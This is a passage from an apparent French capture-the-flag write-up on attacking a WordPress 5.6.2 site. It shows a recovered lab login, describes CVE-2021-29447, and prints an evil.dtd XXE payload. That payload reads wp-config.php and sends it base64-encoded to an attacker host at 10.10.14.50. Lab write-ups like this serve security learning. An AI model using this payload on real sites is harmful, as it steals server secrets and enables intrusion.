 <div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-key mr-2 text-green-500"></i>
        Mot de passe trouvé : manager:partylikearockstar
    </p>
</div>

Connexion réussie à `/wp-login` avec le compte `manager`.


## 🧩 Phase 4 — Exploitation WordPress (XXE, CVE-2021-29447)

### Identification de la version WordPress

**Version détectée :** WordPress 5.6.2 sous PHP 8.0.24

### Recherche de vulnérabilités

Une recherche rapide révèle la vulnérabilité <span class="text-highlight-orange">**CVE-2021-29447**</span>, permettant une attaque XXE via la Media Library.

<div class="bg-red-50 dark:bg-red-900/20 p-6 rounded-xl border-l-4 border-red-500 my-4">
    <h4 class="text-xl font-bold text-red-600 dark:text-red-400 mb-3 flex items-center">
        <i class="fas fa-bug mr-2"></i>CVE-2021-29447 - XXE Injection
    </h4>
    <div class="space-y-2 text-gray-700 dark:text-gray-300">
        <div class="grid md:grid-cols-2 gap-4">
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Application affectée :</span> WordPress < 5.6.2
            </div>
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Type :</span> XXE Injection (Authenticated)
            </div>
        </div>
        <div>
            <span class="font-semibold text-red-600 dark:text-red-400">CVSS Score :</span> 7.1 (High)
        </div>
        <div class="mt-4">
            <span class="font-semibold text-red-600 dark:text-red-400">Description :</span><br>
            La fonction de parsing de fichiers audio WAV dans WordPress ne valide pas correctement les entités XML. Un attaquant authentifié peut uploader un fichier WAV malveillant contenant des entités externes XML pour lire des fichiers arbitraires sur le serveur.
        </div>
    </div>
</div>

### Création du payload XXE

**Fichier evil.dtd :**

```xml
<\!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../wp-config.php">
<\!ENTITY % init "<\!ENTITY &#x25; trick SYSTEM 'http://10.10.14.50:8080/?p=%file;'>">
```
